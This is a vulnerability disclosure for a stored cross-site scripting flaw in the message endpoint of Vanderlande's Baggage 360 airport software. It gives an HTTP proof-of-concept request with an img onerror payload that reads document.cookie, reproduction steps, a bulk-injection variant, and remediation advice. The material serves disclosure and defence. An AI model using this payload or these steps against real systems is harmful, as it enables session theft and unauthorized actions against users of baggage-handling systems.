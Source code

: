 # Vanderlande OpenAIR Baggage 360 Vulnerability - Stored Cross-Site Scripting (XSS)

**Exploit Title:** Stored XSS in Messages enables cross-user script execution  
**Exploit Author:** Yasser Alshammari (YasserREED)  
**Vendor Homepage:** https://www.vanderlande.com/  
**Product Page:** https://www.vanderlande.com/software/baggage-360/  
**Version:** Observed on **Baggage 360 v7.0.0** (earlier versions may be affected)  
**Tested On:** Web application (OpenAIR platform), authenticated user context  
**CVE:** Reported via VulDB, pending assignment  
**Severity:** **High 7.1** 

**CVSS Vector:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:L/A:N`  

## Description

The endpoint **`POST /api-addons/v1/messages`** in **Vanderlande OpenAIR Baggage 360** accepts HTML in the `message` field, **stores** it, and later **renders** it **without escaping** in the UI. When a user opens **Bags → [select bag tag] → Interterm Bag Journey Details → Messages**, the injected JavaScript executes in the application context.

Because the **Bags** screen supports **bulk selection** and **Add Message**, a single request can attach the malicious content to **many bag tags at once**, causing wide impact across users who view those bag journeys.

### HTTP Proof of Concept (PoC)
```http
POST /api-addons/v1/messages HTTP/2
Host: example.com
Content-Type: application/json
Cookie: <Cookie Session>


{
  "messageObjects": [
    {
      "message": "<p><img src=x onerror=alert(document.cookie)></p>", // <== Add XSS payload here
      "type": "BAG",
      "messageType": "FREE_FORM",
      "entityId": "<bag-id>"
    }
  ]
}
```

### Affected Endpoint

POST `/api-addons/v1/messages` (message creation)

### Steps to Reproduce

1. Sign in with a user who can view bag details.
2. Navigate to Bags → [bag tag] → Interterm Bag Journey Details → Messages.
3. Start adding a message (type any text) and intercept the request (e.g., via a proxy).
4. Replace the message body with an XSS payload inside `<p>` tags, e.g. `<p><img src=x onerror=alert(document.cookie)></p>`.
5. Forward/submit the request.
6. Open the affected bag’s Messages section (with any user).
7. The payload executes in the browser, confirming stored XSS..

> Optional (wider impact): From Bags, select multiple bag tags → `Add Message` with the same payload → the script is attached to all selected records in one request.

## Impact
- **Code execution:** JavaScript runs in the app context when users view affected bag messages.
- **Data exposure:** Read DOM data; if cookies aren’t `HttpOnly`, `document.cookie` theft is possible.
- **Unauthorized actions:** Script can trigger privileged UI flows as the victim.
- **Widespread effect:** Bulk “Add Message” lets one payload hit many bag records at once.

## Remediation

- **Remove JavaScript entry points:** Strip all `on*` events from every element. For `<img>`, allow only `src` (http/https) and `alt`. **reject** `data:`/`javascript:` URLs.
- **Block malicious HTML:** Drop `script`, `iframe`, `svg`, `math`, `object`, `embed` and any unknown tags/attrs that can execute JavaScript.
- **Encode & verify:** HTML-escape on render and apply the same sanitization to bulk `Add Message`. Add tests to ensure `<img onerror>`, `<svg onload>`, and `<a href="javascript:...">` are neutralized.